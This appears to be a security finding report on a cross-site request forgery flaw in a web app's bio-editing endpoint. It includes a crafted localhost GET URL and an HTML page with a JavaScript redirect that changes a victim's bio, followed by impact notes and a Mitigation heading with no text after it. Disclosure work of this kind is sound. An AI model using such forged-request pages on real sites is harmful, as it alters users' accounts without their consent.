 #### Vulnerability: Cross Site Request Forgery (CSRF via Action Reuse)

#### Description: 

The vulnerability arises due to action reuse in the application, where the same endpoint (/users/settings/edit_bio) accepts both GET and POST requests. This allows an attacker to craft a malicious GET request that modifies the user's bio without their consent. The issue is caused by not properly checking the HTTP method and not using anti-CSRF tokens for GET requests.

#### PoC: 

I identified a Cross-Site Request Forgery (CSRF) vulnerability in the GET endpoint /users/settings/edit_bio, which allowed unauthorized updates to a user’s bio 	without proper verification of the request origin or the implementation of CSRF protection mechanisms.

To demonstrate the issue, I crafted a malicious URL.

```http://localhost:4000/users/settings/edit_bio?user%5Bbio%5D=Got+Hacked```

When this URL was accessed by victim@gmail.com, a GET request was automatically sent by the browser to the server, resulting in the bio being changed to "Got Hacked". 

![csrf_burp](https://github.com/user-attachments/assets/fe0d0376-acab-44de-a96f-51c55f8a4679)

![bio_change_burp](https://github.com/user-attachments/assets/c2be8e94-1b34-4ca0-9b5b-9918c8ce8985)

To showcase the exploit, I crafted an HTML page with embedded JavaScript to redirect the victim’s browser to the malicious URL. I hosted this exploit, and after accessing it, the bio of the victim user was successfully changed to "Got Hacked".

![Edit_bio](https://github.com/user-attachments/assets/239da47a-a58e-423d-9a5e-e09a320c2dc7)

![8_CSRF_Reuse](https://github.com/user-attachments/assets/e91236e2-9807-4a7d-933f-674326ebf971)

#### Exploit:         : 
```
<!DOCTYPE html>
<html>
<head>
    <title>CSRF Exploit</title>
</head>
<body>
    <h1>You are being redirected...</h1>
    <script>
        window.location.href = "http://localhost:4000/users/settings/edit_bio?user%5Bbio%5D=Got+Hacked";
    </script>
</body>
</html>
```
#### Impact: 

The impact of this vulnerability is significant, as it allows unauthorized state changes in user accounts and highlights the absence of essential security measures, such as CSRF tokens and origin validation. Proper mitigation techniques like implementing CSRF tokens, restricting state-changing operations to POST requests, and using SameSite cookies would prevent such attacks and enhance the application's security posture.

In a successful CSRF attack, the attacker can modify the victim's profile information (e.g., bio, email, or other settings), potentially escalate the attack to perform more harmful actions if other sensitive endpoints are similarly vulnerable and damage the reputation of the application by defacing user profiles or spreading malicious content.

#### Mitigation: 

To mitigate this vulnerability, the following steps should be taken:
```